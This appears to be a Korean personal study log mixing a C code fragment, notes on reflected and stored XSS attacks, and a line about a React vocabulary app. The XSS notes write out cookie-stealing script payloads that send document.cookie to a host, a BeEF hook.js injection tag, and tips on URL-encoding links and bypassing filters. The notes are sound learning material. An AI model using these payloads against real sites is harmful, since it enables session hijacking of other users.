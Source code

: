   ```c
  //		printf("p1과 p2가 같습니다.")
  //	} 틀린 방법.

  	if((p1.x == p2.x) && (p1.y == p2.y)) {
  		printf("p1과 p2는 같습니다.");
  	}

  	return 0;
  }
  ```

- malloc();

1. XSS공격.

- 클라이언트 쪽의 웹브라우저를 공격하는 기법.
- 스크립트 코드를 삽입하여 다른 사용자 브라우저에서 실행되도록 하는 공격.
- Reflected XSS공격
  - 스크립트를 반사

![1](https://user-images.githubusercontent.com/78394999/127509869-e32fa198-b7cb-4452-a2ef-7f81edeac322.png)

만약, Refelcted XSS 약점이 있다면, 아래 코드를 실행했을 때 세션 id 값을 준다.

- <script>alert(document.cookie)</script>
- 리눅스의 웹서버 로그를 갖고오는 명령어 - tail -f /opt/lampp/logs/access_log
- <script>document.location='http://127.0.0.1/cookie'?+document.cookie</script>
  - document.location='http://127.0.0.1/cookie' 이 사이트로, document.cookie 이 쿠키값을 리다이렉트 해달라는 script코드.

![2](https://user-images.githubusercontent.com/78394999/127509981-da19d7d5-fba4-4540-b711-54a01132e4cc.png)

명령어를 통해 세션 id를 빼온 상황.

- gmail에 링크를 삽입할때는 , url 인코딩을 해주어야 함.
  - url 인코딩 = 어떤 문자를 아스키코드 값으로 변환 후 %를 붙여 전달하는 것.
- Stored XSS공격
  - 스크립트 코드가 한번 저장되었다가, 나중에 실행되도록 함.

![3](https://user-images.githubusercontent.com/78394999/127510018-289037f0-dc8a-4a97-afce-c8b5c8b66df8.png)

    - 해커가 직접 서버에 스크립트 코드를 삽입시킴.

- BeFF 프레임워크

  - 웹 브라우저의 취약점을 공격하는 프레임워크.
  - XSS 취약점에 <script src="http://<IP>:3000/hook.js"></script> 코드를 삽입하면 xss공격이 실행됨.

- XSS를 막기위해 정규식을 통해 script코드를 삭제할 수 있음.
  - HTML코드로 우회해서 공격.
  - 특정 태그를 막는 방어는 좋지않다. (우회가능)
  - htmlspecialchars 함수로 방어(html에서 의미를 갖는 몇몇 특수문자를 안전한 문자로 변경해줌) ([https://www.php.net/manual/en/function.htmlspecialchars.php](https://www.php.net/manual/en/function.htmlspecialchars.php))

1. 토익 단어장 만들기

   - react-router-dom 사용하기
